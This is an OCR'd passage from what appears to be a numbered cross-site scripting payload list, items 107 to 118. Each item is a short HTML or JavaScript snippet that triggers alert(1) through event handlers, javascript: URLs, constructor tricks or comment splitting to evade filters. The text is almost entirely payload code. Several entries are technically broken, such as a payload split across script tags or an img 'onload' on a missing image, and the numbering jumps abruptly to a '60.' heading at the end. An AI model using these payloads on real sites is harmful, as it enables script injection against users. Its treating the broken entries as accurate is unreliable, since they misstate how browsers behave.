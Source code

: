 **107. Using `location.hash` to Inject XSS**
```html
<script>location.hash = "javascript:alert(1)";</script>
```

**108. Injection Using JavaScript `.onload` Event Handler**
```html
<img src="x" onload="alert(1)">
```

**109. Using CSS `position:fixed` with JavaScript URL**
```html
<a style="position:fixed;" href="javascript:alert(1)">Fixed</a>
```

**110. Data Attributes for Inline JavaScript**
```html
<button data-action="javascript:alert(1)">Click</button>
```

**111. Execution Using `<menu>` Tag**
```html
<menu type="context" id="menu"><menuitem label="Click me" onclick="alert(1)"></menuitem></menu>
```

**112. Combining JavaScript and CSS in `<svg>`**
```html
<svg><style>@import 'javascript:alert(1)';</style></svg>
```

**113. Payload Split Between Multiple `<script>` Tags**
```html
<script>aler</script><script>t(1)</script>
```

**114. Inline JavaScript Comment to Break Filters**
```html
<script>alert/*hello*/(1)</script>
```

**115. JavaScript Constructor from User Input**
```html
<script>Function.constructor('alert(1)')()</script>
```

**116. Abuse of JavaScript Ternary Operator**
```html
<script>1 ? alert(1) : ''</script>
```

**117. Exploit CSS Visibility Property for Hidden Script**
```html
<div style="visibility:hidden" onclick="alert(1)">Hidden</div>
```

**118. Abusing `<plaintext>` Tag**
```html
<plaintext><script>alert(1)</script>
### **60. Multi-Layer Encoded and Obfuscated XSS Payloads**
Leveraging multiple encoding schemes to evade signature-based filters.
